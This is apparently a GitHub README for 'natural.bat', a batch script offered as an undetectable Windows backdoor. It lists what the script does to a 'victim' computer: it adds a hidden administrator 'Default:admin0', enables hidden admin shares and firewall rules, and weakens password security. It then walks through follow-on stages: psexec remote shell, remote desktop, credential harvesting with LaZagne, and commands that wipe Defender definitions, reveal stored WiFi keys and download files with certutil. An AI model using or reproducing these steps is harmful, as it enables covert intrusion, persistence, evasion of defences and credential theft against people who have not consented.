


# Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.

# How does it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'Default' user with password 'admin0' into administrators group.
- Hides 'Default' user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.

# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/natural.bat. From now on the batch file can be run without limitation. 

# Using
The address \\\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The Default:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rules for samba access (windows shares)l. 

The script prompts for an alias for the target computer at the end. The alias string entered is saved at the end of the natural.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.

# Next Stage 1: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

# Next Stage 2: Remote Desktop

 -  [Click](uvnc.md) for further steps to remote control victim computer with UltraVNC.
 - You may be interested in [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn) and [AutoRDPwn Dosc](https://darkbyte.net/autordpwn-la-guia-definitiva/)
 

# Next Stage 3: Get stored passwords and credentials

The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer. Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). This tool has been developed for the purpose of finding these passwords for the most commonly-used software. 			

https://github.com/AlessandroZ/LaZagne/releases/

# Usefull shell commands

| Command|Description|
|--------------|-----------|
|wmic process list brief| **Shows running process**|
|wmic useraccount| **Shows user accounts.**|
|wmic logicaldisk get caption,description,providername|**Show mounted disks**|
|wmic /Node:localhost /Namespace:\\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List|**Show installed Antivirus softwares**|
|sc query windefend |**Show service status of Microsoft Windows Defender.**|
|"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All | **Delete all rules of Defender (useful for machines without internet access)**|
|netsh wlan show profiles |**List stored wireless connection profiles.**|
|netsh wlan show profile name=<SSID Name> key=clear| **Show stored wireless key as clear text.**|
|certutil.exe -urlcache -split -f "url" setup.exe|**Downloads a file from command line without any external tool.**|
|fsutil fsinfo drives|**Get fixed disk drives list.** |
|dir C:\$Recycle.Bin /s /b |**Show recyle bin content.**|
|systeminfo|**Show system info.**|

 - [click](https://github.com/security-cheatsheet/cmd-command-cheat-sheet) some functional command examples. 
 - [click](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters) basic commands for Pentesters 
 - [click](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png) to check "got administrator access" section in diagram.

# Uninstall
Just run unatural.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.

# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

# Donation

Would you like to buy me a coffee? [Click](https://www.buymeacoffee.com/ozgurkoca).
